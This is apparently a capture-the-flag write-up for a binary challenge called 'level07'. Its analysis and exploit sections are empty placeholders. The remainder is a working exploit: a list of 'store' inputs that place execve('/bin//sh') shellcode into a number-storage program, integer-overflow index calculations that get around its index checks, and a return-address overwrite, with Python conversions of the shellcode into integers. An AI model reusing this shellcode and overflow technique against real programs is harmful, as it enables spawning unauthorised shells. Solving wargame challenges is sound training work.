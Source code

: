 # level07

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Here everything concerning the analysis of the binary.

## Exploit

Here everything concerning the exploit description.


```console
store
2572684138
1
store
791636050
2
store
795371635
1073741827
store
2305714530
4
store
3452514787
5
store
128
1073741830
store
4294956360 (buf+4)
1073741938
quit
```




```python
>>> print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
j
 X�Rh//shh/bin��1�̀
>>> 0x99580b6a
2572684138
>>> 0x2f2f6852
791636050
>>> 0x2f686873
795371635
>>> 0x896e6962
2305714530
>>> 0xcdc931e3
3452514787
>>> 0x80
128

>>> (2**32 + (4 * 3)) / 4
1073741827
>>> (2**32 + (4 * 6)) / 4
1073741830
>>> (2**32 + (4 * 114)) / 4
1073741938

>>> 0xffffd548
4294956360
```